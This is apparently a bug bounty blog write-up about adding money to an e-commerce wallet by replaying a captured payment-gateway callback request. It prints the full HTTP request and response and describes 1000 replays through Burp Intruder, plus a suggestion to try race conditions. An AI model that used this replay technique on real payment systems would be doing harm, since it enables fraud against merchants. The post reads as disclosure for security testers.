





# :globe_with_meridians: How to add infinity amount(cash) to E-Commerce application’s wallet just from 1 INR only.

---

Hi Infosec guys!!!! Hope you are doing well. If you are here then you are interested in learning more n more. This finding is not unique for some 1337 infosec guys but most of the guys do not test this case.

I tested an e-commerce application with my checklist specific to E-Commerce Application. I found many vulnerability on that application such as OTP in response, Price manipulation, Quantity manipulation, etc.

Here, I will talk about adding amount in Wallet and How did I misuse it to get thousands of Dollar bounty bug. I will use [www.redacted.com](http://www.redacted.com) as Target’s Host.

I created an account and go to the wallet section. I had 0 INR at starting.

Then there is an option to add the amount in wallet with some Payment gateways. I added 1 in input field, selected PayTM gateway and clicked on add to wallet.

Then, there was a payment gateway page and you can opt any one of the below options. I choosed paytm option and add my paytm number and verified it.

Now, I configured BurpSuite with Browser and did INTERCEPT ON to capture the requests.

Now, I clicked on Pay Rs. 1 and check each and every request in BurpSuite. I forwarded all the requests related to paytm gateway. Then I got a suspicious request in BurpSuite.

## Get Harshit Sengar’s stories in your inbox

Join Medium for free to get updates from this writer.

Remember me for faster sign in

REQUEST :

>

POST /pgResponse.php HTTP/1.1
Host: www.redacted.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 404
Origin: https://securegw.paytm.in
Connection: close
Referer: https://securegw.paytm.in/theia/processTransaction
Cookie: PHPSESSID=xxxxxxxxxxxxxxxxxxxxxxxxxxxx; T*ConnectionTime=0; __T*uuid=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
Upgrade-Insecure-Requests: 1

CURRENCY=INR&GATEWAYNAME=WALLET&RESPMSG=Txn+Success&BANKNAME=WALLET&PAYMENTMODE=PPI&MID=XXXXXX79987247XXXX&RESPCODE=01&TXNID=202007XXXXXXXXXXXXXXXXXXXXXXXXXXXX&TXNAMOUNT=1.00&ORDERID=ORDS157XXXXXX&STATUS=TXN_SUCCESS&BANKTXNID=1410XXXXXXXXX&TXNDATE=2020–01–11+22%3A20%3A49.0&CHECKSUMHASH=xxxxxxxxxxxxHASH_DATAxxxxxxxxxxxxxxx

RESPONSE :

>

HTTP/1.1 200 OK
Date: Sat, 11 Jan 2020 17:09:32 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: 0
Cache-Control: no-cache
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 116
Connection: close
Content-Type: text/html; charset=UTF-8

<b>Waiting…</b> <b>Transaction status is success</b> 

I sent the above request to REPEATER Tab and did INTERCEPT OFF.

I checked the wallet and successfully added the amount(1 INR).

So the scenerio was that Payment gateway send a response to client about sussessfully completion of payment and then a request(above request) is generated from the client to Target’s server for adding the amount in wallet.

Now, I changed the TXAMOUNT’s value from 1.00 to 10000.00 and sent it but there was no success.

Then, I sent original request(above request) as it was and went to browser and refreshed the page.

BOOM!!!!! 1 INR was added in wallet successfully. So now, the total wallet’s amount were 2 INR. (I sent the original request to INTRUDER and send 1000 requests with null payload and 1000INR were added to my wallet.)

##NOTE:

- Check each and every request.

- If above test case will not work for you then It is worth to check the RACE CONDITION issue on the add money endpoint — use Turbo Intruder for it or use coding skills to implement it.

If you like it then clap and share it with other infosec guys.

You can follow me on [Twitter](https://www.twitter.com/sengarharshit1), [Linkedin](https://www.linkedin.com/in/sengarharshit1)

Thanks!!!!

Hope you enjoyed it and my previous blogs.

---
